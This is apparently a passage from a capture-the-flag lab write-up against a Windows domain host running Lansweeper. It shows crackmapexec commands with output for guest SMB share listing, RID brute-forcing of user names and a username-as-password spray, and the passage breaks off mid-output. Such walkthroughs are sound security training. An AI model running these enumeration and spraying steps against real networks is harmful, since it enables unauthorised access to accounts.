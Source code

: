 
### SMB — 445

Anonymous listing on smb shares is allowed.

```bash
$ crackmapexec smb 10.10.90.18 -u 'guest' -p '' --shares
SMB         10.10.90.18     445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.90.18     445    INVENTORY        [+] sweep.vl\guest: 
SMB         10.10.90.18     445    INVENTORY        [+] Enumerated shares
SMB         10.10.90.18     445    INVENTORY        Share           Permissions     Remark
SMB         10.10.90.18     445    INVENTORY        -----           -----------     ------
SMB         10.10.90.18     445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.90.18     445    INVENTORY        C$                              Default share
SMB         10.10.90.18     445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.90.18     445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.90.18     445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.90.18     445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.10.90.18     445    INVENTORY        SYSVOL                          Logon server share
```
{: .nolineno }

There is nothing on the shares. Let’s move on to the web.

### HTTP — 81,82

[Lansweeper](https://en.wikipedia.org/wiki/Lansweeper) is running on the website. I couldn’t login with the default or weak credentials.

> Lansweeper is an IT discovery & inventory platform which delivers insights into the status of users, devices, and software within IT environments. This platform inventories connected IT devices, enabling organizations to centrally manage their IT infrastructure.
{: .prompt-tip }

We can brute force users as passwords and see if that leads us anywhere. Let’s use [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) for this.

```bash
$ crackmapexec smb 10.10.90.18 -u 'guest' -p '' --rid-brute
```
{: .nolineno}

I saved the users and brute forced them found password of `user` intern.

```bash
$ crackmapexec smb 10.10.90.18 -u users -p users --no-bruteforce --continue-on-success
SMB         10.10.90.18     445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\jgre808:jgre808 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\bcla614:bcla614 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\hmar648:hmar648 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\jgar931:jgar931 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\fcla801:fcla801 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\jwil197:jwil197 STATUS_LOGON_FAILURE 
SMB         10.10.90.18     445    INVENTORY        [-] sweep.vl\grob171:grob171 STATUS_LOGON_FAILURE 
```